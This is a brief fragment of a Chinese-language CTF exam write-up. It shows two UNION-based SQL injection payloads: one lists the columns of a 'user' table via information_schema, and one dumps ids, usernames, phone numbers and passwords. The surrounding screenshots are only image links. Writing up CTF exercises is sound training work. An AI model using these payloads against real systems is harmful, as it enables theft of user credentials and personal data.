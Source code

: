 #### user表 查字段

`1 union select group_concat(column_name)from information_schema.columns where table_schema='webdb' and table_name='user'`

![image-20210927141555987](0927考试CtF/image-20210927141555987.png)

![image-20210927141617430](0927考试CtF/image-20210927141617430.png)

#### 查字段内容

`1 union select group_concat(id,username,phone,password)from webdb.user`

![image-20210927142002468](0927考试CtF/image-20210927142002468.png)

![image-20210927142214127](0927考试CtF/image-20210927142214127.png)

![image-20210927142233995](0927考试CtF/image-20210927142233995.png)
